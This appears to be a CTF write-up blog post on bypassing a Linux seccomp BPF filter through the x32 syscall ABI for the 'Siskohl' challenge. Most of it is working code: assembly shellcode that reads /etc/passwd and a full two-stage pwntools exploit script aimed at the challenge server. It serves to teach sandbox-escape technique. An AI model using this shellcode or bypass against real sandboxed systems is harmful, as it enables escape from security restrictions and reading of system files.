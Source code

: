 ```yaml
---
layout: post
title:  "Bypassing seccomp BPF filter"
date:   2021-07-12
categories: ctf
description: Seccomp is a computer security facility in the Linux kernel.
tags: tip-binary ctf
---
```


# Objective

In this post, I will explain how to bypass seccomp by access the `x32` syscall ABI. 
It will work even if the seccomp is checking the current architecture. I will use 
the `Siskohl` sandbox challenge from CSCCTF final 2021 and try to use a forbidden syscall. 
the binary doesn’t use libseccomp instead it uses bpf seccomp

# Seccomp info file

to examine which syscall is not allowed you can use `seccomp-tools` here is the seccomp 
information from the binary

<img src="/images/bypass-seccomp/seccomp.png">

as you can see, we can't use those syscalls and the filter checks the current architecture. 
so we can't bypass it by switching to 32-bit mode. in this post, I will try to use the `x32` syscall 
ABI and use `open`, `read`, and `write` syscall.
for example, I will try to see a file content inside `/etc/passwd`

# Bypass seccomp filter

we can use `0x40000000` to bypass the filter, in order to call a forbidden syscall you can adding 
the syscall number with 0x40000000, so our shellcode will look like:

{% highlight C %}
; open(0x0000000000404000, 0, 0) 0x0000000000404000 = path of the file we want to read
mov rax, 0x40000002
mov rdi, 0x0000000000404000
mov rsi, 0
mov rdx, 0
syscall

; read(path, 0x0000000000404000, 0x100) 
mov rdi, rax
mov rax, 0x40000000
mov rsi, 0x0000000000404000
mov rdx, 0x100
syscall

; write(1, 0x0000000000404000, 0x100) 
mov rax, 0x40000001
mov rdi, 1
mov rsi, 0x0000000000404000
mov rdx, 0x100
syscall
{% endhighlight %}

# Exploit

{% highlight python %}
#!/usr/bin/env python2
import sys
from pwn import *
context.update(arch="amd64", endian="little", os="linux", log_level="info",
               terminal=["tmux", "split-window", "-v", "-p 85"],)
LOCAL, REMOTE = False, False
TARGET=os.path.realpath("/home/ctf/ctfs/2021/cscctf-final/pwn/siskohl/siskohl")
elf = ELF(TARGET)

def attach(r):
    if LOCAL:
        bkps = ["* 0x401449"]
        gdb.attach(r, '\n'.join(["break %s"%(x,) for x in bkps]))
    return

def exploit(r):
    # attach(r)
    rw = 0x0000000000404000

    # stage 1
    setsyscall = '''
    mov r13, rdx

    mov rdi, 0x0000000000404000
    mov rsi, 0x68732f6e69622f2f
    mov [rdi+0], rsi

    mov rax, 0x40000000
    mov rsi, r13
    add rsi, 0x4a
    mov rdi, 0
    mov rdx, 1000

    mov r14, r13
    add r14, 0x48
    mov r15,  0x050e
    add r15, 1
    mov [r14+0], r15
    '''
    sh = asm(setsyscall)
    print len(sh)
    r.sendline(sh)

    # stage 2
    shellcode =  '''
    

    mov r12, 0x0000000000404000
    mov rcx, 0x7361702f6374652f
    mov rdx, 0x0000000000647773
    mov [r12+0], rcx
    mov [r12+8], rdx

    mov rax, 0x40000002
    mov rdi, 0x0000000000404000
    mov rsi, 0
    mov rdx, 0
    syscall

    mov rdi, rax
    mov rax, 0x40000000
    mov rsi, 0x0000000000404000
    mov rdx, 0x100
    syscall

    mov rax, 0x40000001
    mov rdi, 1
    mov rsi, 0x0000000000404000
    mov rdx, 0x100
    syscall
    '''
    r.sendline(asm(shellcode))
    r.interactive()
    return

if __name__ == "__main__":
    if len(sys.argv)==2 and sys.argv[1]=="remote":
        REMOTE = True
        r = remote("188.166.177.88", 13377)
    else:
        LOCAL = True
        r = process([TARGET,])
    exploit(r)
    sys.exit(0)

{% endhighlight %}
